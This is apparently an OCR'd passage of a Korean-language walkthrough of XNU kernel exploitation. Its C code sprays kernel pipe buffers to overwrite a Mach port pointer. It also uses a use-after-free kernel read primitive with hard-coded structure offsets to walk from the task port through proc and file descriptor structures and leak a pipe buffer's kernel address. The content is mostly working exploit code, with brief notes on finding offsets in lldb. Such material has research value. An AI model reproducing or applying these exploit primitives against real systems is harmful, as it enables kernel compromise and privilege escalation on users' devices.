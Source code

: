 ```c
    pipefds[0] = fds[0];
    pipefds[1] = fds[1];

    // assert(count == capacity && "can't alloc enough pipe fds");
    // Truncate the array to the smaller size.
    // int *new_pipefds = realloc(pipefds, 2 * count * sizeof(int));
    // assert(new_pipefds != NULL);
    // Return the count and the array.
    // *pipe_count = count;
    return pipefds;
}

...

// here we'll create a pair of pipes (4 file descriptors in total)
// first pipe, used to overwrite a port pointer in a mach message
size_t pipebuf_size = 0x10000;
pipefds = create_pipes();

// make the buffer of the first pipe 0x10000 bytes (this could be other sizes, but know that kernel does some calculations on how big this gets, i.e. when I made the buffer 20 bytes, it'd still go to kalloc.512
pipebuf = (uint8_t *)malloc(pipebuf_size);
memset(pipebuf, 0, pipebuf_size); 

write(pipefds[1], pipebuf, pipebuf_size); // do write() to allocate the buffer on the kernel
read(pipefds[0], pipebuf, pipebuf_size); // do read() to reset buffer position
write(pipefds[1], pipebuf, 8); // write 8 bytes so later we can read the first 8 bytes (used to verify if spraying worked)
```

task 포트와 fd 핸들을 이용하면 pipe 버퍼의 주소를 쉽게 얻을 수 있다.

xnu 소스코드를 보면서 ipc_port 구조체부터 차례대로 접근되는 방식을 이해하고
각 구조체의 오프셋 값은 KDK 패키지에 내장된 커널을 lldb에 붙여 확인하면 된다. 

커널 영역에 있는 Pipe 버퍼 주소를 획득하는 방법은 다음과 같다.

```c

    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
    read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);

#define rk64_check(addr) ({ uint64_t r; r = rk64_via_uaf(addr); if (!r) { usleep(100); r = rk64_via_uaf(addr); if (!r) { printf("[-] failed to read from '"#addr"'\n");}}; r;})

    uint64_t task = rk64_check(self_port_addr + 0x68);  //p/x offsetof(struct ipc_port, kdata.kobject)
    uint64_t proc = rk64_check(task + 0x380);   //p/x offsetof(struct task, bsd_info)
    uint64_t p_fd = rk64_check(proc + 0xe8);   // p/x offsetof(struct proc, p_fd)
    uint64_t fd_ofiles = rk64_check(p_fd + 0x0);    //p/x offsetof(struct filedesc, fd_ofiles)
    
    uint64_t fproc = rk64_check(fd_ofiles + pipefds[0] * 8);
    uint64_t f_fglob = rk64_check(fproc + 0x8); //p/x offsetof(struct fileproc, f_fglob)
    uint64_t fg_data = rk64_check(f_fglob + 0x38);  //p/x offsetof(struct fileglob, fg_data)
    uint64_t pipe_buffer = rk64_check(fg_data + 0x10);  //p/x offsetof(struct pipebuf, buffer)
    INFO("pipe buffer: 0x%llx\n", pipe_buffer);
```
